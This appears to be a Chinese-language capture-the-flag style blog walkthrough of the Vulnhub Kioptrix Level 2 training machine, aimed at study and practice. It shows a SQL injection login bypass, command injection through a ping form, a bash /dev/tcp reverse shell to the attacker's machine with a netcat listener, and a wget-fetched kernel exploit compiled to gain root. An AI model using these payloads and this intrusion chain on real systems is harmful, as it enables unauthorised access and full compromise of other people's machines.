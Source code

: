 ```yaml
---
title: KIOPTRIX:LEVEL 2
author: hgbe02
date: 2024-01-26 20:00:00 +0800
categories: [Training platform,Vulnhub]  
tags: [Vulnhub,web]  
permalink: "/Vulnhub/Kioptrix-level2.html"
---
```


# KIOPTRIX: LEVEL 2

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632087.png" alt="image-20240126104304145" style="zoom:50%;" />

老样子，对`.vmx`进行改造，然后扫描：

![image-20240126114005266](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632089.png)

## 踩点一下

打开看看对不对：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632090.png" alt="image-20240126114350440" style="zoom:50%;" />

尝试万能密码，`username`填入`admin' or '1' = '1`，进入了。好家伙直接免去了我最糟心的sql注入环节：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632091.png" alt="image-20240126115844210" style="zoom:67%;" />

然后随便ping一下，看看能不能执行命令`127.0.0.1 && whoami`，输出：

```text
127.0.0.1 && whoami

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.264 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.034 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.032 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.032/0.110/0.264/0.108 ms, pipe 2
apache
```

使用插件看一下相关配置信息：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632092.png" alt="image-20240126122344403" style="zoom: 50%;" />

## 端口扫描

```sh
sudo nmap -sS -T5 -A -p- 192.168.244.138
/*
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-25 23:07 EST
Nmap scan report for 192.168.244.138
Host is up (0.00067s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1009/udp   status
|_  100024  1           1012/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_ssl-date: 2024-01-26T01:58:17+00:00; -2h09m35s from scanner time.
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
|_http-server-header: CUPS/1.1
1012/tcp open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:12:F4:09 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

Host script results:
|_clock-skew: -2h09m35s

TRACEROUTE
HOP RTT     ADDRESS
1   0.67 ms 192.168.244.138

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.59 seconds
*/
```

可以看到，开放了`22,80,111,443,631,1012,3306`这几个端口。

## 方法一：kali监听，反弹shell

```shell
127.0.0.1&&bash -i >& /dev/tcp/192.168.244.133/3380 0>&1
# bash -i >& /dev/tcp/192.168.244.133/3380 0>&1：这是一个反向 shell 命令的核心部分。
# bash -i：这会启动一个交互式的 bash shell。
# >& /dev/tcp/192.168.244.133/3380：这会将 bash shell 的输出重定向到 IP 地址 192.168.244.133 的 3380 端口。这意味着在 192.168.244.133 上监听 3380 端口的任何人都可以看到 bash shell 的输出。
# 0>&1：这会将 bash shell 的输入重定向到其输出，这意味着在 192.168.244.133 上监听 3380 端口的任何人都可以向 bash shell 发送命令。
```

本地开启一下监听：

```shell
nc -lvvp 3380
# nc：这是 netcat 的简写，是一个强大的网络工具，可以用于读取和写入网络连接。
# -l：这个参数让 netcat 进入监听模式，等待接入的连接。
# -v：这个参数让 netcat 在操作过程中提供更多的信息，也就是说它会显示更详细的输出。当你使用两个 -v 参数（即 -vv）时，netcat 会提供更详细的信息。
# -p 3380：这个参数指定 netcat 应该监听的端口号，这里是 3380。
```

进去了，拿到了一个普通用户权限：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632093.png" alt="image-20240126122158468" style="zoom:50%;" />

## 尝试提权

先寻找一下Apache相关漏洞查看是否有可以实现的：

![image-20240126122906650](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632094.png)

不对，我都反向连接shell了，我还要这个干啥。。。

尝试`SUID`提权：

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lvvp 3380
listening on [any] 3380 ...
192.168.244.138: inverse host lookup failed: Unknown host
connect to [192.168.244.133] from (UNKNOWN) [192.168.244.138] 32771
bash: no job control in this shell
bash-3.00$ find / -perm -4000 2>/dev/null
/sbin/unix_chkpwd
/sbin/pam_timestamp_check
/sbin/pwdb_chkpwd
/usr/sbin/ccreds_validate
/usr/sbin/userhelper
/usr/sbin/userisdnctl
/usr/sbin/suexec
/usr/sbin/usernetctl
/usr/libexec/openssh/ssh-keysign
/usr/libexec/pt_chown
/usr/kerberos/bin/ksu
/usr/lib/squid/pam_auth
/usr/lib/squid/ncsa_auth
/usr/bin/chsh
/usr/bin/rcp
/usr/bin/sudo
/usr/bin/chage
/usr/bin/crontab
/usr/bin/rlogin
/usr/bin/rsh
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/lppasswd
/usr/bin/sg
/usr/bin/passwd
/bin/mount
/bin/traceroute6
/bin/traceroute
/bin/umount
/bin/ping6
/bin/ping
/bin/su
```

没有我们想要的文件。。。

尝试内核提权：

```shell
uname -a 	   #打印系统信息
lsb_release -a #查看系统版本
```

![image-20240126123958819](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632095.png)

可以看到 CentOS 版本为4.5，查找相关漏洞：

![image-20240126124416353](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632096.png)

第二个符合我们的系统，尝试下载下来利用一下：

```shell
searchsploit -m PATH
```

然后开启python的简单http服务：

```shell
python3 -m http.server 1234
```

然后在反弹shell中进行下载：

```shell
cd /tmp  								 # 防止没有读写权限
wget http://192.168.244.133:1234/9542.c  # 远程下载payload
gcc 9542.c  							 # 编译一下，这里有报错但是不影响
./a.out 								 # exploit
```

![image-20240126130302284](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632097.png)

如图已经拿到了root，打靶结束。